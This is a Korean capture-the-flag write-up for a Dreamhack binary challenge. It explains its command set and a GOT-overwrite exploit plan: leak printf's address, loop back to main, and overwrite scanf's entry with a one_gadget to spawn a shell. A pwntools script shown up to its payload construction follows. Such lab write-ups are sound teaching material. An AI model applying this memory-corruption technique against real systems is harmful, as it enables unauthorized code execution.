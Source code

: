 ROBOCARPOLI_ID      0x1000 감소

HALLIGALLI_ID       0x100  감소

BROCCOLI_ID         0x10   감소

BORDERCOLLIE_ID     0x1    감소

BLUEBERRY_ID        ptr 참조하여 출력

CRANBERRY_ID        ptr에 참조하여 var 입력

MYSTERY_ID          inc, dec 를 ptr에 할지 var에 할지 스위치

INVALID_ID          11

익스플로잇은 다음과 같이 할 수 있다.
1.  ptr을 printf함수의 got로 한다.
2. ptr을 참조하여 출력한다.
3. one gadget을 구한다.
4. put_got를 main으로 하여 다시 main으로 돌아간다.
5. ptr을 scanf로 하고 var을 one_gadget으로 한다.
6. 다시 main으로 돌아와서 scanf가 실행되면 셸이 따진다.

처음에는 마자막 puts를 one gadget으로 했는데 조건이 안맞아서 scanf로 돌렸다.

```python
from pwn import *
  
context.log_level = 'debug'
  
# p = process("./holymoly")
p = remote("host3.dreamhack.games", 18123)
  
pause()
#define HOLYMOLY_ID         0x1000 증가
#define ROLYPOLY_ID         0x100  증가
#define MONOPOLY_ID         0x10   증가
#define GUACAMOLE_ID        0x1    증가
#define ROBOCARPOLI_ID      0x1000 감소
#define HALLIGALLI_ID       0x100  감소
#define BROCCOLI_ID         0x10   감소
#define BORDERCOLLIE_ID     0x1    감소
#define BLUEBERRY_ID        ptr 참조하여 출력
#define CRANBERRY_ID        ptr에 참조하여 var 입력
#define MYSTERY_ID          inc, dec 를 ptr에 할지 var에 할지 스치함
#define INVALID_ID          11
# 처음 switch는 ptr임
  

ex = b''
ex += b'mystery'
ex += b'holymoly'*0x404    
ex += b'monopoly'*0x2      
ex += b'guacamole'*0x8     
ex += b'blueberry'
ex += b'broccoli'*0x1
ex += b'mystery'
ex += b'holymoly'*0x401    
ex += b'rolypoly'*0x1      
ex += b'monopoly'*0xf
ex += b'guacamole'*0x6     
ex += b'cranberry'

ex += b'mystery'
ex += b'guacamole'*0x8
ex += b'mystery'
ex += b'broccoli'*0xf
```